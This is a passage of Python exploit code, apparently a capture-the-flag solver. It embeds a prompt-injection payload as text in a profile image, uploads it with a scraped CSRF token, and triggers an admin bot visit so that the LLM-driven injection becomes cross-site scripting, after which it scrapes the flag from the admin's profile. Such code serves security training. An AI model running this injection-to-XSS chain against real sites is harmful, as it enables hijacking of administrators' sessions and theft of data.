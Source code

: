 ```python

        fontSize = 36
        fontFile = 'arial.ttf'  
        font = ImageFont.truetype(fontFile, fontSize)
        imageDraw.text((10, 10), promptInjectionPayload, fill=(0, 0, 0), font=font)

        buffer = BytesIO()
        image.save(buffer, 'png')
        imageBytes = buffer.getvalue()
        print('[+] The LLM prompt injection image has been generated!')
        return imageBytes

    def promptInjectionToXss(self, uploadedJavaScriptFilePath):
        print('[*] Uploading prompt injection profile picture...')
        bodyData = {
            'csrf_token': self.getCsrfToken(self.EDIT_PROFILE_PATH),
            'description': 'anything'
        }

        promptInjectionFilename = 'anything.png'
        promptInjectionImageData = self.generatePayloadImage(uploadedJavaScriptFilePath)
        file = { 'picture': (promptInjectionFilename, promptInjectionImageData) }

        response = self.session.post(self.EDIT_PROFILE_PATH, data=bodyData, files=file, allow_redirects=False)
        if response.status_code != 302:
            print('[-] Unable to upload the prompt injection profile picture')
            exit(0)

        print('[+] The prompt injection profile picture has been uploaded!')

    def sendFriendRequestToAdmin(self):
        print('[*] Sending a friend request to admin...')
        print('[*] Admin is visiting our profile, please wait 20 seconds...')

        adminUserId = 1
        self.session.post(self.SEND_FRIEND_REQUEST_PATH, json={ 'id': adminUserId })
        print('[+] Admin has been visited our profile page!')

    def getAdminProfile(self):
        print('[*] Getting the updated admin profile...')

        profilePictureImgElement = BeautifulSoup(self.session.get(self.ADMIN_PROFILE_PATH).text, 'html.parser').find('img', attrs={ 'class': 'img-thumbnail' })
        profileDescription = profilePictureImgElement.find_next('div').text.strip()
        if not profileDescription:
            print('[-] Admin\'s profile description is empty')
            exit(0)

        matchedFlagResult = search(self.FLAG_REGEX_FORMAT, profileDescription)
        if matchedFlagResult is None:
            print('[-] Admin\'s profile description doesn\'t have the flag')
            exit(0)

        return matchedFlagResult.group(1)

    def solve(self, javascriptPayload):
        username, password = self.register()
        self.login(username, password)

        self.uploadJavaScriptFile(javascriptPayload)
        uploadedJavaScriptFilePath = self.getUploadedJavaScriptFilePath()
        self.promptInjectionToXss(uploadedJavaScriptFilePath)
```